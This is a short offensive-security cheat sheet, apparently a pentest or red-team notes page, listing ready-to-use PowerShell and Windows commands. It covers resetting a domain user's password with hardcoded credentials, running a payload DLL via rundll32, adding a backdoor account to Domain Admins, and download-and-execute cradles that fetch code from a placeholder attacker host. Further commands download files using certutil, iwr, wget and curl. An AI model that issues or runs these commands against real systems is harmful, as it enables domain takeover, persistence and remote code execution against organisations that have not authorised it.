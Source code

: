 ##### Change Passwd

```powershell
$creds = New-Object System.Management.Automation.PSCredential ("final.com\adminWebSvc", (ConvertTo-SecureString "FGjksdff89sdfj" -AsPlainText -Force)) 
$UserPassword = ConvertTo-SecureString 'PasswordRulon123!' -AsPlainText -Force 
Set-DomainUserPassword -Identity nina -AccountPassword $UserPassword -Credential $creds -Verbose 
```

##### Run DLL

```powershell
Rundll32 c:\users\public\payload.dll,run
```
##### Add User

```powershell
net user John Password123! /add /domain 
net localgroup "Remote Desktop Users" John  /add /domain 
net group "domain admins" John  /add /domain 

runas /user:john "Powershell.exe /c whoami"
```

##### Execute Cradle

```powershell
iex(new-object net.webclient).downloadstring('http://ip:port/')
```

##### Download Cradle

```powershell
(new-object System.Net.Webclient).DownloadFile("http://ip:port/","C:\Windows\Temp\temp.ps1")
```

##### Download Files

```powershell
certutil -urlcache -split -f "http://ip-addr:port/file" [output-file]
```

```powershell
Powershell.exe iwr -uri http://ip:port -o C:\Windows\Tasks\
```

```powershell
Powershell.exe wget http://ip:port/ -o C:\Windows\Temp\
```

```powershell
cmd.exe /c curl http://ip:port/ -o C:\Windows\Temp\
```

##### Create Session

```powershell
$sess = New-PSSession -ComputerName <name>
```
